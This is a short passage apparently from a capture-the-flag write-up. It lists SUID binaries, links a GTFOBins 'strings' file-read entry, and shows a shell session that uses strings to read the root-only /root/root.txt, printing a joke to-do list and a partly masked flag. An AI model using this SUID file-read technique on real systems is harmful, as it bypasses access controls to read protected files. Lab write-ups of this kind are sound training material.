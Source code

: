 ```python
/bin/umount
/bin/su
```

[strings | GTFOBins](https://gtfobins.github.io/gtfobins/strings/#file-read)

```python
jack@jack-of-all-trades:~$ LFILE=/root/root.txt
jack@jack-of-all-trades:~$ strings "$LFILE"
ToDo:
1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?
5.Remember to finish that contract for Lisa.
6.Delete this: securi-tay2020_{6f12*********************10a}
```



